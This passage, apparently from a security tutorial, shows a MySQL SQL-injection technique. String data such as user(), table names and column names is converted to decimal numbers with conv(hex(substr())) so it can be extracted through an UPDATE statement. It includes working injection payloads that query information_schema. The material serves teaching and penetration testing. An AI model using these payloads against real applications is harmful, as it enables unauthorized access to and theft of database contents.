 
Finally after decoding the values we get the result from user().

    
    <code>mysql> select concat(unhex(conv(8245931987826405219, 10, 16)), unhex(conv(107118236496756, 10, 16)));
    +----------------------------------------------------------------------------------------+
    | concat(unhex(conv(8245931987826405219, 10, 16)), unhex(conv(107118236496756, 10, 16))) |
    +----------------------------------------------------------------------------------------+
    | root@localhost                                                                         |
    +----------------------------------------------------------------------------------------+
    </code>




## Injection




### Extracting Table Names


The syntax for extracting table names from the information_schema database.

    
    <code>select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
    </code>




### Extracting Column Names


The syntax for extracting column names from the information_schema database.

    
    <code>select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
    </code>




### Update Statement


Now we can put the things we learned together. We apply bitwise OR to the string with our payload which converts the data into decimals.
Let’s look at an example where we can apply my technique inside an update statement.

    
    <code>update emails set email_id='osanda'|conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)),16, 10) where id='16';
    </code>


For the previous problem we can inject like this.
